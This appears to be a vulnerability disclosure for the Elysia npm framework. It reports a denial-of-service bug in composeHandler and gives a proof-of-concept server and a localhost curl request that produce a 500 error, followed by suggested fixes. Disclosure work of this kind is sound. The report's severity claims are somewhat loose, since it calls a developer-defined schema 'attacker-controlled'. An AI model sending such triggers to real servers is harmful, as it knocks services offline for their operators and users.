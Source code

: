 # vuln-elysia-1.3.21-ddos

## Summary

Elysia (npm) is vulnerable to **Denial of Service (DoS)** due to unsafe dynamic code generation in the request handler composition.  
Through version **1.3.21 (latest tested)**, a crafted schema property or malformed input can trigger a crash inside `composeHandler` in `src/compose.ts`.  
This causes the server to throw an unhandled exception and return **HTTP 500 Internal Server Error** for valid requests, effectively allowing remote attackers to perform a DoS.

- **Vulnerability Class:** Improper Input Validation → Crash/DoS (CWE-20, CWE-248)  
- **Severity:** Medium/High (CVSS ~7.5)  
- **Exploitability:** Any attacker able to send crafted HTTP requests to an affected server can trigger this vulnerability.  

---

## Details

- **Package:** `elysia` (npm)  
- **Repository:** [github.com/elysiajs/elysia](https://github.com/elysiajs/elysia)  
- **Affected File:** [src/compose.ts](https://github.com/elysiajs/elysia/blob/main/src/compose.ts)  
- **Affected Function(s):** `composeHandler`, `compile`  
- **Affected Versions:** ≤ 1.3.21 (latest tested)  
- **Root Cause:** Dynamic handler generation assumes `schema.$defs[schema.$ref]` exists. Crafted input can bypass assumptions and cause a `TypeError`.

### Relevant code excerpt (compose.ts)
```ts
const properties =
  schema.properties ?? schema.$defs[schema.$ref].properties
```

If `schema.$defs` or `schema.$ref` is undefined due to attacker-controlled schema, the code throws:  
```
TypeError: undefined is not an object (evaluating 'schema.$defs[schema.$ref]')
```

---

## Proof of Concept (PoC)

### Vulnerable Server (poc-elysia-dos.mjs)
```js
import { Elysia, t } from 'elysia'

const app = new Elysia()
  .get('/hello', () => 'Hello World')
  .get('/dos', () => 'SAFE', {
    query: t.Record(t.String(), t.String())
  })
  .listen(3000)

console.log("Server listening on http://localhost:3000")
```

### Run the server
```bash
bun poc-elysia-dos.mjs
```

### Test normal route
```bash
curl http://localhost:3000/hello
# -> Hello World
```

### Trigger DoS
```bash
curl -i http://localhost:3000/dos?x=1
```

**Expected result:**  
The server crashes internally and responds with **500 Internal Server Error**.  
Clients see Bun’s error overlay HTML with stack trace:

```
TypeError: undefined is not an object (evaluating 'schema.$defs[schema.$ref]')
    at composeHandler (.../elysia/src/compose.ts:657:33)
    ...
```

**Demonstration:**  
![DoS Attack Demonstration](poc-elysia-dos.gif)

---

## Attack Vector

- Any attacker who can send crafted requests to endpoints that use `t.Record` or similar schemas can reliably trigger a crash.  
- The server continues running, but valid requests fail until restart → effectively **Denial of Service**.

---

## Impact

- **Availability loss** for services using Elysia.  
- Remote attacker can crash endpoints at will.  
- In production, repeated exploitation can render the service unusable.  

**Vulnerability type:** Denial of Service (DoS) via malformed schema parsing  
**Affected users:** All applications using Elysia with schemas like `t.Record(...)` or other constructs that reach `schema.$defs`.

---

## Suggested Fix

- Add guards before dereferencing `schema.$defs[schema.$ref]`.  
- Reject malformed schema definitions early.  
- Add test cases for schema edge cases (e.g., empty `$ref`, missing `$defs`).

---

## Disclosure
- **Status:** Under responsible disclosure  
- **Disclosure Date:** 04 September 2025  
- **Reporter:** Manopakorn Kooharueangrong (Whyshealwaysbrokeme)
